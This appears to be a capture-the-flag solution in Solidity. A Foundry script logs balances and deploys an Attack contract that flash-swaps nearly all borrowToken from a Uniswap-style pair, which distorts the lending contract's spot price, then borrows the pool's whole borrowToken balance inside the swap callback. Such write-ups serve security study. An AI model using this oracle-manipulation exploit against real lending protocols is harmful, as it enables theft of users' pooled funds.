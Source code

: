 ```solidity

        console.log("Player balance of collatoralToken : ", collateralToken.balanceOf(address(player)));
        console.log("Player balance of borrowToken : ", borrowToken.balanceOf(address(player)));

        console.log("price of borrowToken in terms of collatoralTokens : ", lending.getExchangeRate());
        console.log("Player : ", player);
        console.log("Player balance: ", player.balance);

        Attack attack = new Attack(address(lending), player);
        attack.exploit();

        console.log("Pair balance of collatoralToken : ", collateralToken.balanceOf(address(pair)));
        console.log("Pair balance of borrowToken : ", borrowToken.balanceOf(address(pair)));

        console.log("Lending balance of collatoralToken : ", collateralToken.balanceOf(address(lending)));
        console.log("Lending balance of borrowToken : ", borrowToken.balanceOf(address(lending)));

        console.log("Player balance of collatoralToken : ", collateralToken.balanceOf(address(player)));
        console.log("Player balance of borrowToken : ", borrowToken.balanceOf(address(player)));
        console.log("isSolved() : ", lending.isSolved());
        vm.stopBroadcast();
    }
}

interface IUniswapV2Callee {
    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external;
}

contract Attack is IUniswapV2Callee {
    Lending public lending;
    Pair public pair;
    ERC20 public collateralToken;
    ERC20 public borrowToken;
    address player;

    constructor(address _lending, address _player) {
        lending = Lending(_lending);
        pair =  lending.pair();
        collateralToken = lending.collateralToken();
        borrowToken = lending.borrowToken();
        player = _player;
    }
    function exploit() public {
        uint256 totalBorrowableBorrowTokenFromPair = borrowToken.balanceOf(address(pair)) - 1;
        pair.swap(0, totalBorrowableBorrowTokenFromPair, address(this), abi.encodePacked("something"));
    }
    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) public {
        uint256 totalBorrowableBorrowTokenFromLending = borrowToken.balanceOf(address(lending));
        pair.sync();
        lending.borrow(totalBorrowableBorrowTokenFromLending);
        uint256 borrowedTokensFromLending = borrowToken.balanceOf(address(address(this)));
        borrowToken.transfer(address(pair), borrowedTokensFromLending);
    }
}
```